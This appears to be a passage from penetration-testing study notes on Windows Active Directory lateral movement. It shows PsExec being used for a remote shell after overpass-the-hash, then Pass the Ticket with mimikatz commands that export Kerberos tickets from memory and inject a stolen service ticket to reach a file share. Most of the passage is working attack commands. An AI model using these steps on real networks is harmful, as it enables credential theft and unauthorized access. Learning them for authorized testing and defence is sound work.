 The example shows how it is possible, once you have obtained a hash with elevated privileges, to move to another machine using **PsExec.exe**:

```bash
# klist command to check for ticket presence
klist

# now you could access a file via smb (that was not accessible before)
net use \\files04

# getting a shell via PsExec.exe
.\PsExec.exe \\files04 cmd
```

## Pass the Ticket

With the previous technique, namely _overpass the hash_, after acquiring a TGT we are able to use it only on the machine on which it was acquired.

With the TGS there is more flexibility.

The _Pass the Ticket_ attack uses the TGS, which can be exported and reused anywhere on the network to authenticate to a specific service. Furthermore, the TGS belongs to the current user, so no administrator privileges are required.

Export Kerberos TGT/TGS from disk:

```bash 
.\mimikatz.exe

privilege::debug

sekurlsa::tickets /export

exit

# to show the tickets obtained
dir *.kirbi

# to execute the attack, i.e. the injection of the selected TGS into the process memory
kerberos::ptt $TGS_NAME
```

Example:

```bash
# to show the tickets obtained
dir *.kirbi

# ticket obtained
[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

# execution of the attack
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

# klist command to verify the presence of the ticket
klist

# example of access to a share through the ticket obtained
ls \\web04\backup
```
